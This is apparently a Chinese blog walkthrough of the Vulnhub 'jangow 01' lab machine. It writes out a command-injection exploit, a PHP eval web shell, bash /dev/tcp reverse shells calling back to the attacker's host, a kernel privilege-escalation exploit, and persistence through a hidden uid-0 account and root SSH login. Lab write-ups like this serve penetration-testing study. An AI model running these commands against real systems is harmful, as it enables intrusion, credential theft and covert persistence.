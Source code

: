 ```yaml
---
layout: post
title: jangow 01
subtitle: jangow 01
date: 2022-12-15 12:04
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
---
```

## jangow 01

靶机ip：192.168.56.118

kali攻击机ip：172.17.46.146

### 1. nmap扫描IP

靶机IP已知：

```shell
nmap -A 192.168.56.118
```

![image-20221215120422075.png](https://kyonk.v6.army:1443/KlHhcv.png)

### 2. 扫描目录

```shell
dirb http://192.168.56.118
```

```
http://192.168.56.118/server-status
http://192.168.56.118/site/index.html
http://192.168.56.118/site/wordpress/index.html
```

### 3. 访问网站

http://192.168.56.118

点击`site`进入新的页面，查看源码发现：

![image-20221215121549451.png](https://kyonk.v6.army:1443/HuwqNT.png)

```html
 <li class="nav-item"><a class="nav-link" href="busque.php?buscar=">Buscar</a></li>
```

在地址栏输入参数判断此处有命令执行漏洞

![image-20221215121829007.png](https://kyonk.v6.army:1443/OJ5Thb.png)

使用burp suit进一步测试

```
cat+busque.php
<?php system($_GET['buscar']); ?>
echo+"bash+-c+'0<%262-%3bexec+22<>/dev/tcp/172.17.46.146/4444%3bsh+<%2622+>%2622+2>%2622'"+>+shell.sh
find+/+-perm+-4000+2>/dev/null
```

经测试，能写入文件，但无法ping通kaliIP，无法反弹shell。使用一句话木马+antsword

```
buscar=echo '<?php @eval($_POST['para']); ?>' > test.php
```

成功连接，发现/site/wordpress/config.php 内容有用户名和密码。访问后报错

```
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

发现/.backup文件

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

尝试修改config.php中database和username。再次访问仍报错

目标机开启了21和80端口。尝试用户名密码登录ftp

```
ftp 192.168.56.118
desafio02 abygurl69
失败
ftp 192.168.56.118
jangow01 abygurl69
成功
```

![image-20221219214101588.png](https://kyonk.v6.army:1443/W3o0Y2.png)

进入后是在/var/www目录下，没什么收获，继续用AntSword

发现 /home/jangow01/user.txt

```
d41d8cd98f00b204e9800998ecf8427e
```

MD5解码

```
查询结果：
[空密码]/[Empty String]
```

```
systemd-private-d6139d42208945be97253054fca34ee2-systemd-timesyncd.service-cCdsLz
```

### 4. 反弹shell

使用AntSword的shell有时无回显，尝试反弹shell

在site目录下新建shell.sh写入如下内容，在终端执行

```shell
bash -c '0<&2-;exec 22<>/dev/tcp/192.168.56.102/443;sh <&22 >&22 2>&22'
```

==只有443端口可以，其他端口无法连接==

kali成功获取shell

![image-20221220154726740.png](https://kyonk.v6.army:1443/ReFxXh.png)

升级tty shell，输入

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20221220154914986.png](https://kyonk.v6.army:1443/JWFfqu.png)

成功升级界面，并切换到jangow01用户

![image-20221220155027321.png](https://kyonk.v6.army:1443/At7d64.png)

可尝试suid提权。

这里选择内核漏洞提权

### 5. 提升权限

```shell
uname -a #查看系统内核
# Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
searchsploit ubuntu 4.4.0-31 #查找相关漏洞
```

![image-20221220155427153.png](https://kyonk.v6.army:1443/gFLQso.png)

使用**linux/local/45010.c** 。将文件复制下来，并编译

```shell
searchsploit -m 45010.c
gcc 44298.c -o 45010
```

![image-20221220155715500.png](https://kyonk.v6.army:1443/mPn78M.png)

可以使用ftp或AntSword上传到目标机**/home/jangow01/**目录下

```
ftp 192.168.56.118
jangow01
abygurl69
cd /home/jangow01
put 45010
ls
```

![image-20221220160244999.png](https://kyonk.v6.army:1443/8ZDtbp.png)

**chmod +x 45010** 添加权限后执行

成功获取root权限。发现root目录下proof.txt文件，内容：

```
da39a3ee5e6b4b0d3255bfef95601890afd80709
```

MD5查询结果：
[空密码]/[Empty String]

### 6. 权限维持

添加root用户

```shell
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

排查技巧：

```shell
# 查询特权用户特权用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

查看防火墙状态

```shell
ufw status
cat /etc/ufw/user.rules
```

打开或关闭某个端口

```shell
sudo ufw allow smtp　允许所有的外部IP访问本机的25/tcp (smtp)端口
udo ufw allow 22/tcp 允许所有的外部IP访问本机的22/tcp (ssh)端口
sudo ufw allow 53 允许外部访问53端口(tcp/udp)
sudo ufw allow from 192.168.1.100 允许此IP访问所有的本机端口
sudo ufw allow proto udp 192.168.0.1 port 53 to 192.168.0.2 port 53
sudo ufw deny smtp 禁止外部访问smtp服务
sudo ufw delete allow smtp 删除上面建立的某条规则
```

开启22端口

```shell
ufw allow 22/tcp
vi /etc/ssh/sshd_config
# 将#PermitRootLogin without-password改为PermitRootLogin yes
echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config
输入/etc/init.d/ssh restart ，重启下ssh服务
```